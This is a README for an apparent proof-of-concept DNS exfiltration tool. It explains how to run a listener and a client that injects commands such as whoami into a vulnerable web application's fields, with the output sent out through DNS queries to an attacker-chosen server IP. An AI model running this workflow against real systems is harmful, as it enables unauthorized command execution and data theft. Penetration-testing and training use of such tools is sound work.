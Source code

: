 # DNS Data Exfiltration Project

This project demonstrates a proof-of-concept for data exfiltration using DNS queries. It involves two components: a `client.py` script to send commands and exfiltrate data, and a `server.py` script to receive and decode the exfiltrated data via DNS queries.

## Features

- **Client Script (`client.py`)**: Encodes and sends commands to a vulnerable web application, which then exfiltrates data over DNS.
- **Server Script (`server.py`)**: Receives the DNS queries, reassembles the exfiltrated data, and decodes it for analysis.

## Prerequisites

- Python 3.x
- `dnslib` library (install using `pip3 install dnslib`)
- `requests` library (install using `pip3 install requests`)

## Setup and Usage

### Server (`server.py`)

The server script acts as a DNS server that listens for incoming DNS queries and decodes the exfiltrated data.

### 1. Run the DNS server:

By default, the server runs on port 53 (standard DNS port). You can specify a custom port using the `--port` argument.

```bash
python3 server.py --port 53
```
If no port is provided, the script will prompt you to use the default port or enter a custom port.

Example prompt:

```bash
No port provided. Do you want to use the default port 53? (yes/no): yes
```

### Client (client.py)

The client script sends requests to a vulnerable web application, embedding encoded commands that are exfiltrated via DNS queries.

The client script accepts several command-line arguments to customize the payload and its delivery. Below are the details:

--url: (Required) The URL of the vulnerable application.

Example: --url http://vulnerable-app.com/index.php

--method: (Required) The HTTP method to use for the request. Accepted values are GET or POST.

Example: --method POST

--proxy: (Optional) The proxy URL to route the HTTP request through. This can be useful for testing in controlled environments.

Example: --proxy http://127.0.0.1:8080

--server_ip: (Required) The IP address of the DNS server where the exfiltrated data will be sent.

Example: --server_ip 10.45.5.12

--server_port: (Optional) The port number of the DNS server. Defaults to 53 if not specified.

Example: --server_port 8053


### 2. Run the client script:

#### 2.1. Direct execution

You can run the client.py script and passing the inputs as command-line arguments:

```bash
python3 client.py --url http://vulnerable-app.com --method POST --proxy http://127.0.0.1:8080 --server_ip 192.168.1.1 --server_port 53
```

#### 2.2. Interactive execution

Alternatively, you can run the script without arguments and provide the details interactively:

```bash
python3 client.py
```


#### 2.2.1 Interactive Input:

URL: The URL of the vulnerable application.
HTTP Method: Specify GET or POST.
Proxy: (Optional) Specify a proxy URL if required.
DNS Server IP: IP address of the DNS server receiving the exfiltrated data.
DNS Server Port: Port of the DNS server (default is 53).


#### Example prompt:

```bash
Enter the URL of the vulnerable application: http://vulnerable-app.com/index.php
Enter the HTTP method (GET or POST): POST
Enter the proxy URL (e.g., http://127.0.0.1:8080) or leave blank if not using: 
Enter the DNS server IP for exfiltration: 10.45.5.12
Enter the DNS server port (e.g., 53 or 8053): 8053
```

#### Specify the Payload:

Field Injection: The script allows you to specify fields where the payload will be injected. You'll be asked if the field should contain the command injection payload.

Command Input: You can enter multiple commands which will be encoded and sent via the DNS exfiltration technique.

#### Example prompt:

```bash
Enter the payload field to specify (e.g., host): host
Do you want to inject the payload into this field 'host'? (y/n): y
Enter the payload command (e.g., whoami, ls /) or press Enter to exit: whoami
```

The client will send the constructed payloads to the server, exfiltrating data via DNS queries.

The server will receive and decode these queries, providing the exfiltrated data.

### 3. Monitor the server window to see the exfiltrated data.



### Notes

SSL Warnings: The client script disables SSL warnings, but you should be cautious about using this in a production environment.
Fake DNS Response: The server responds with a fake IP address (127.0.0.1) to all DNS queries, as the focus is on capturing and decoding the query data.

### Disclaimer

This project is for educational purposes only. Unauthorized use of these scripts on any system you do not own or have explicit permission to test is illegal and unethical.